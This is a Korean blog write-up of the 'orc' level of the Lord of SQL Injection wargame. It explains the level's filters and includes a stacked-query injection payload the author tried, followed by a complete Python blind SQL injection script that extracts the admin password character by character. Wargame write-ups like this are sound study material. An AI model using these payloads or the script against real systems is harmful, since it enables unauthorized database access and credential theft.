 ```yaml
---
title: "[LOS] orc"
date: 2025-03-25 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_orc where id='admin' and pw='{$_GET[pw]}'
```

<br>

# Protection

## preg_match

- `prob` 문자열
- `_`
- `.`
- `()`

<br>

## addslashes()

```php
$_GET[pw] = addslashes($_GET[pw]);
```

<br>

## if statement

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

<br>

# Analysis

- addslashes 함수 수행 전에 쿼리문이 실행된다
- 실행된 쿼리문이 출력이 되지는 않기에 update, insert와 같은 구문을 통해 데이터베이스를 변경할 수 있다.
- `prob` 문자열이 필터링되기에 `?pw=1' or 1=1; update char(0x70726F625F6F7263) set pw='123' where id='admin' %23`와 같은 페이로드를 시도하였지만 변화X
- 첫 번째 쿼리 실행 후 db에서 값을 가져온다면 `<h2>Hello admin</h2>`을 echo하기에 blind sqli 시도 가능

<br>

# exploit code

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookie = '{PHPSESSID}'

# Get the length of the password
length = 1
while True:
    payload = f"?pw=0' or id='admin' and length(pw)={length} %23 "

    res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

    if '<h2>Hello admin</h2>' in res.text:
        break

    length += 1

print(f'*** Found length: {length} ***')

# Get the password by binary search
password = ''
for i in range(1, length + 1):

    low = ord('0')
    high = ord('z')
    while low <= high:
        mid = (low + high) // 2
        payload = f"?pw=0' or id='admin' and ord(substring(pw,{i},1))<={mid} %23 "
        res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

        if '<h2>Hello admin</h2>' in res.text:
            high = mid - 1
        else:
            low = mid + 1
    password += chr(low)
    print(f'Current password: {password}')

print(f'*** Found Password: {password} ***')
```
